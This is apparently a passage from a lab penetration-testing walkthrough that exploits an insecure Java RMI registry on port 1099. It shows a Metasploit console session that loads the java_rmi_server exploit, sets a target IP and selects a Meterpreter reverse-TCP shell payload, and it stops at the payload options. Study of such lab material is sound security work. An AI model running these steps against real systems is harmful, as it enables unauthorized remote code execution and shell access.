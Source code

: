### Port 1099 java-rmi

Let's continue our exploitation. Anything labeled Java is bound to be interesting from a security perspective :)

Searching for Java exploits yielded something interesting:

**Java RMI Server Insecure Default Configuration Java Code Execution**

> This module takes advantage of the default configuration of the RMI Registry and RMI Activation services, which allow loading classes from 
> any remote (HTTP) URL. As it invokes a method in the RMI Distributed Garbage Collector which is available via every RMI endpoint, it can be 
> used against both rmiregistry and rmid, and against most other (custom) RMI endpoints as well. Note that it does not work against Java 
> Management Extension (JMX) ports since those do not support remote class loading, unless another RMI endpoint is active in the same Java 
> process. RMI method calls do not support or require any sort of authentication.

``` plain
msf > use exploit/multi/misc/java_rmi_server  
msf exploit(java_rmi_server) > show options

Module options (exploit/multi/misc/java_rmi_server):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST                     yes       The target address
   RPORT    1099             yes       The target port
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)

msf exploit(java_rmi_server) > set RHOST 192.168.127.154
RHOST => 192.168.127.154

msf exploit(java_rmi_server) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf exploit(java_rmi_server) > show options

Module options (exploit/multi/misc/java_rmi_server):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.127.154  yes       The target address
   RPORT    1099             yes       The target port
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):
```